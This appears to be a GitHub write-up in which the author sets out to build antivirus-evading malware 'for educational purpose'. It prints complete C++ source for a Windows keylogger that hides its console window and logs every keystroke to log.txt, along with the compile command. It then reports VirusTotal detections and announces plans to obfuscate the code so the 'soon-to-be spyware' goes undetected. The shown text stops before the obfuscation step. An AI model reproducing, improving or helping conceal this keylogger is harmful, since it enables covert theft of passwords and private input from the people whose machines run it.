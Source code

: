 Malware Experimentation
---

In this experiment, i will try to develop a malware that is able to bypass antivirus softwares for educational purpose. For the sake of demonstration, i will primarily use C++ to create a malware.

Jan 21 2025
---

I have created a keylogger file using one on the internet in which it will save the output in log.txt every time i type.

```
#include <iostream>
#include <windows.h>

using namespace std;

int Save(int _key, char *file);

int main(){
    FreeConsole();

    char i;
    while(true) {
    Sleep(10);
    for(i=8; i<=255; i++) {
        if(GetAsyncKeyState(i)== -32767){
            Save(i, "log.txt");
        }
    }

} 
return 0;
}

int Save(int _key, char *file) {
    cout<< _key << endl;
    Sleep(10);
    FILE *OUTPUT_FILE; // can also use the ofstream command
    OUTPUT_FILE = fopen(file, "a+"); //a+ is used to add new keys each time, and not overwrite
    switch(_key)
    {
        case VK_SHIFT: fprintf(OUTPUT_FILE, "[SHIFT]");
            break;
        case VK_BACK: fprintf(OUTPUT_FILE, "[BACKSPACE]");
            break;
        case VK_LBUTTON: fprintf(OUTPUT_FILE, "[LBUTTON]");
            break;
        case VK_RBUTTON: fprintf(OUTPUT_FILE, "[RBUTTON]");
            break;
        case VK_RETURN: fprintf(OUTPUT_FILE, "[ENTER]");
            break;
        case VK_TAB: fprintf(OUTPUT_FILE, "[TAB]");
            break;
        case VK_ESCAPE: fprintf(OUTPUT_FILE, "[ESCAPE]");
            break;
        case VK_CONTROL: fprintf(OUTPUT_FILE, "[Ctrl]");
            break;
        case VK_MENU: fprintf(OUTPUT_FILE, "[Alt]");
            break;
        case VK_CAPITAL: fprintf(OUTPUT_FILE, "[CAPS Lock]");
            break;
        case VK_SPACE: fprintf(OUTPUT_FILE, "[SPACE]");
            break;
    }
    fprintf(OUTPUT_FILE, "%s", &_key);
    fclose(OUTPUT_FILE);
    return 0;
}
```
Next, i compiled it with g++

```
g++ -o test test.cpp
```
**File: log.txt**

![image](https://github.com/user-attachments/assets/ef8020dd-bf85-4d72-98ef-9adac3c205fa)

As you can see from the output file, it records everything when this file is running. Now let's see how it is evaluated in VirusTotal.

Static Analysis
---

![image](https://github.com/user-attachments/assets/3eec70fa-01ad-49a6-8db8-17eb5c6846be)

Dynamic Static Analysis
--

![image](https://github.com/user-attachments/assets/bb10c840-78cf-4076-a3a7-bd7dae1d0582)


**Results:** It seems that some antivirus flag this file as a spyware which is correct but at this momemt it isn't a spyware yet! (and some give us false positive result lol)

> [!Tip]
> If we want our soon-to-be spyware undetected, we need to wear a ghille suit!

With that being said, we will now obfuscate the code to make things harder for VirusTotal!


